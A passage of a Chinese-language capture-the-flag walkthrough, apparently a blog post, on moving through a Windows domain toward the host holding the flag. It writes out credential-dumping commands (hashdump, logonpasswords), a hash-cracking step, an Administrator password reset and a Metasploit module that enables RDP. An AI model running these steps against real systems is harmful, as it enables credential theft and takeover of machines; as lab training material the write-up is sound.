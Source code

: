 查看当前主机域名
```
net domain
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/151b9a9ec23644fd9542d0fa842bb8c8.png)

查看域控登录的主机信息
```
net computers
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/42ab21fea26b4e808913303381321b54.png)

10.10.1.130是当前主机，而10.10.10.165是最终flag所在的主机

## 获取域用户密码
```
hashdump
logonpasswords
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/6abeb719611d4d7780b6a442db74cae9.png)

查看密码凭证

![在这里插入图片描述](https://img-blog.csdnimg.cn/446b53c272084247b5413d18e36b1deb.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/a55fdf9d769d4dc4a9438620af59ddd0.png)

爆破这个域用户密码
```
https://www.somd5.com/
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/af7c9123c72d490ba6b21ab7320c32e8.png)






回到msf，进入shell修改密码
```
net user Administrator Ba1_Ma0123456
```


![在这里插入图片描述](https://img-blog.csdnimg.cn/a925ac3141074b4984a1ddba480bc182.png)

开启10.10.1.130主机的3389端口
```
run post/windows/manage/enable_rdp
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/deb194afb97a47bfbd4c68fc0c72245b.png)

用第一台我们拿下的主机去连接

